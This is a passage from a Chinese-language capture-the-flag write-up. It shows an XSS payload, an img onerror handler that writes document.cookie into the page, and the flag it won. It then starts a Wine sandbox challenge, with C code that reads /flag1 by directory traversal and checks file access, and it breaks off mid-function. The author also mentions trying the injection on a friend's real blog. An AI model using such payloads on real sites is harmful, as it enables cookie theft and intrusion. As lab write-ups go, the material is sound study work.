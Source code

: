<pre class="language-javascript"><code class="language-javascript"><span class="token operator">&lt;</span>img src<span class="token operator">=</span>x onerror<span class="token operator">=</span><span class="token punctuation">{</span>greeting<span class="token operator">=</span>document<span class="token punctuation">.</span><span class="token function">getElementById</span><span class="token punctuation">(</span><span class="token string">'greeting'</span><span class="token punctuation">)</span><span class="token punctuation">;</span>greeting<span class="token punctuation">.</span>innerHTML<span class="token operator">=</span><span class="token template-string"><span class="token template-punctuation string">`</span><span class="token interpolation"><span class="token interpolation-punctuation punctuation">${</span>document<span class="token punctuation">.</span>cookie<span class="token interpolation-punctuation punctuation">}</span></span><span class="token template-punctuation string">`</span></span><span class="token punctuation">;</span><span class="token punctuation">}</span><span class="token operator">></span>
</code></pre>
<p>成功拿到 flag <code>flag{xS5_1OI_is_N0t_SOHARD_...}</code></p>
<p>（又学到了新知识，准备去 xls 的博客上玩玩注入</p>
<p>（玩完回来了，xls 的博客直接把 <code>onerror</code> 部分给删掉了</p>
<h2 id="%E6%9D%AF%E7%AA%97%E9%B9%85%E5%BD%B1" tabindex="-1"><a class="header-anchor" href="#%E6%9D%AF%E7%AA%97%E9%B9%85%E5%BD%B1" data-clickable=""><span>杯窗鹅影</span></a></h2>
<p>这个题题目那么长，又是纯纯的 nc 题目，还打着 binary 标签，看一眼就觉得劝退。</p>
<p>但是试了一下第一题，意外的简单。</p>
<p>第一个 flag 位于 <code>/flag1</code> ，直接 <code>freopen</code> 打开输出，拿到第一个 flag <code>flag{Surprise_you_can_directory_traversal_1n_WINE_...}</code></p>
<pre class="language-c"><code class="language-c"><span class="token keyword">int</span> <span class="token function">main</span><span class="token punctuation">(</span><span class="token keyword">int</span> argc<span class="token punctuation">,</span> <span class="token keyword">char</span><span class="token operator">*</span><span class="token operator">*</span> argv<span class="token punctuation">)</span>
<span class="token punctuation">{</span>
	<span class="token function">freopen</span><span class="token punctuation">(</span><span class="token string">"/flag1"</span><span class="token punctuation">,</span> <span class="token string">"r"</span><span class="token punctuation">,</span> <span class="token constant">stdin</span><span class="token punctuation">)</span><span class="token punctuation">;</span>
	<span class="token keyword">char</span> c <span class="token operator">=</span> <span class="token function">getchar</span><span class="token punctuation">(</span><span class="token punctuation">)</span><span class="token punctuation">;</span>
	<span class="token keyword">while</span> <span class="token punctuation">(</span>c <span class="token operator">!=</span> <span class="token constant">EOF</span><span class="token punctuation">)</span>
	<span class="token punctuation">{</span>
		<span class="token function">putchar</span><span class="token punctuation">(</span>c<span class="token punctuation">)</span><span class="token punctuation">;</span>
		c <span class="token operator">=</span> <span class="token function">getchar</span><span class="token punctuation">(</span><span class="token punctuation">)</span><span class="token punctuation">;</span>
	<span class="token punctuation">}</span>
	<span class="token keyword">return</span> <span class="token number">0</span><span class="token punctuation">;</span>
<span class="token punctuation">}</span>
</code></pre>
<p>第二个 flag 位于 <code>/flag2</code> ，但要执行 <code>/readflag</code> 才能读到，先试一下直接读，输出为空，但是没有报错。</p>
<p>用 <code>access</code> 测试了一下文件存在状态与权限，发现 <code>/flag2</code> <code>/readflag</code> 都是可读且可执行，很奇怪。</p>
<pre class="language-c"><code class="language-c"><span class="token keyword">void</span> <span class="token function">test_file</span><span class="token punctuation">(</span><span class="token keyword">char</span><span class="token operator">*</span> str<span class="token punctuation">)</span>
<span class="token punctuation">{</span>
	<span class="token keyword">if</span> <span class="token punctuation">(</span><span class="token operator">!</span><span class="token function">access</span><span class="token punctuation">(</span>str<span class="token punctuation">,</span> F_OK<span class="token punctuation">)</span><span class="token punctuation">)</span>
	<span class="token punctuation">{</span>
		<span class="token function">printf</span><span class="token punctuation">(</span><span class="token string">"%s exist!\n"</span><span class="token punctuation">,</span> str<span class="token punctuation">)</span><span class="token punctuation">;</span>